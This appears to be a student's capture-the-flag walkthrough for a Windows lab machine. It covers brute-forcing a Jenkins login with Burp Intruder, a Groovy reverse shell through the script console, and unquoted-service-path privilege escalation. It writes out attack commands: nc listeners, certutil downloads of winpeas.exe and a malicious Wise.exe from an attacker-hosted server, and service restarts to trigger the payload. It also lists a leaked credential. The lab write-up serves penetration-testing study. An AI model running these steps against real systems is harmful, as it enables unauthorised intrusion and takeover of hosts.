

administrator:A%rc!BcA!
ip:192.168.57.19

http on port 8080
check page source to see if any password in comments of code
try telnet connection
#telnet ip port

dosent seem to work
have to brute force this web page

use burp suite to intercept the request made while trying to log in
use any credential to log,we just want to see the request

send it to repeater and intruder
since we are bruteforcing 2 parameters use either
Pitchfork:1->1 mapping of username and passwd
Clusterbomb:1->many mapping of username and passwd
we wil be using clusterbomb


add payload and press start attack

username:jenkins
password:jenkins
has different length response than others, so it could be valid, so try it
it works
google jenkins exploit
in dashboar->manage
we have Tool:CLI,Script console etc

google:jenkin script console exploit and groovy reverse shell
its in groovy
paste this

in script console change host IP to your IP
#nc -nvlp 8044

run the console script
and we get a low level user

run the following to get machine info

for privilage escalation:use winpeas
#python3 -m http.server 80
host the transfer folder containing winpeas.exe
in the rever shell we got, do
#cd c:\ Users
#dir(similar to ls)
#cd butler
#dir
coz right now we are butler user and we should have read write access in this folder
to download/transfer winpeas to target/victim
#certutil.exe -urlcache -f http://192.168.57.5/winpeas.exe winpeas.exe
-f:file transfer
get winpeas.exe and name it winpeas.exe in target machine
cannot use wget coz its not a linux machine

we can overwrite services like jenkins.exe
in downloads folder we have

wisecare.exe and also found it in winpeas

no quotes means it is going to run C:\Prgram.exe, if it dosent work
C:\ProgramFiles.exe
C:\PrgramFilesWise.exe
and so on
coz space given then windows read it as separate path
if it was written in quotes it would have meant a single path,but winpeas found no quotes
and also space detected
so we can go into Wise folder and write malicious WIse.exe that it will eventually run coz its in the path

payload for x64,we saw it was x64 when we ran systeminfo
write a payload
-p :payload
-f:file type
-o: output file name

now cd into
#nc -nlvp 4444
#certutil -urlcache -f http://192.168.57.5/Wise.exe Wise.exe
#sc stop WiseBootAssistant
#sc query WiseBootAssistant
#sc start WiseBootAssistant